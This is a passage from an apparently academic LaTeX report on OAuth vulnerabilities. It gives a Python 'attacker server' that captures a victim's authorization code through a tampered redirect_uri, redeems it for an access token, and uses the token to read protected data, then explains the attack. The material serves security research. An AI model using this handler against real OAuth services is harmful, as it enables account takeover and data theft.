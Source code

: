 \documentclass[
    fontsize=12pt,
    headings=small,
    parskip=half,           %
    bibliography=totoc,
    numbers=noenddot,       %
    open=any,               %
    ]{scrreprt}
\begin{document}
\begin{minipage}\linewidth
\begin{lstlisting}[language={python}, caption={Example implementation of an attacker server, which handles redirections}, label={lst:attacker_server}] 
class OAuthCallback(BaseHTTPRequestHandler):
    def do_GET(self):
        parsed_url = urlparse(self.path)
        query_params = parse_qs(parsed_url.query)

		# Abort if there is no 'code' parameter present.
        assert query_params["code"] is not None

		# Fetch access token with code
        auth_code=query_params["code"]
        data = {"grant_type": "authorization_code",
                  "code": auth_code,
                  "redirect_uri": REDIRECT_URI,
                  "client_id": CLIENT_ID,
                  "client_secret": ""}
        res = r.post(f"{AUTHORIZATION_SERVER_URL}/oauth/token", data=data)
        access_token_data = res.json()

        # Utilize stolen access token
        headers = {"Authorization": f"Bearer {access_token_data['access_token']}"}
        res = r.get(f"{RESOURCE_SERVER_URL}/api/me", headers=headers)
        print("whoami:", res.content)
\end{lstlisting}
\end{minipage}

\subsubsection{Arbitrary redirect URI}
The first attack implemented is making the victim start an OAuth flow using the authorization code grant, but redirecting it to the attacker callback server after authorization. This is done by simply exchanging the value of \emph{redirect\_uri} parameter to the location of the attacker callback server. The callback server then uses the received authorization to redeem an access token at the authorization server as displayed and already explained in figure \ref{lst:attacker_server}. The attacker then uses the access token to fetch protected resources. This is a very basic attack and assumes that there is not any kind of whitelist in place like it is simulated in the experiment environment. However, there are more sophisticated versions of this attack utilizing the e.g. \emph{Evil Slash} \cite{wang2019make} trick mentioned in Section \ref{threat:T1}. 
\end{document}
